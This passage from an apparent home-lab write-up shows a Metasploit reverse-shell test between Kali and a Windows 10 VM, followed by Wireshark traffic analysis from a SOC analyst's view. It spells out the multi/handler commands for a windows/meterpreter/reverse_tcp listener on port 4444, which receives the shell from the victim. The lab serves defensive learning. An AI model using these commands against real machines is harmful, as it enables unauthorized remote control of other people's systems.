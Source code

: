 
### 9. Configuring Metasploit Listener on Kali

Before running the malicious payload, I opened Metasploit on Kali:

```
Msfconsole
```

Then set up a handler to receive the reverse shell:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.0.129
set LPORT 4444
run
```

<img src="https://i.imgur.com/O7HFP8m.png">

This opened a listener on port 4444, waiting for an incoming connection from the victim machine.

---

### 10. Executing Payload and Capturing Network Traffic

I launched Wireshark on the Windows 10 VM and started capturing packets on the Host-Only interface. While capturing, I executed shell.exe.

<img src="https://i.imgur.com/2xV8FUe.png">

Within seconds, I observed an outbound connection from Windows to Kali on port 4444. On Kali, the Metasploit listener received the connection, and I gained a Meterpreter session — a simulated “hacker shell” on the victim system.

<img src="https://i.imgur.com/9N2dU3K.png">

---

## 🔎 11. Network Traffic Analysis in Wireshark

Once the session was established and Wireshark captured the traffic, I began analysing it like a real-world SOC analyst would when reverse shell behaviour is suspected.

---

### 11.1 Observing Initial Traffic Patterns

<img src="https://i.imgur.com/lYdKC5F.png">
After running the shell.exe file, I noticed new traffic appear in Wireshark. Checking the packets, I saw they all came from the same source IP, 172.16.0.129 (the attacker), and used port 4444 consistently.

---
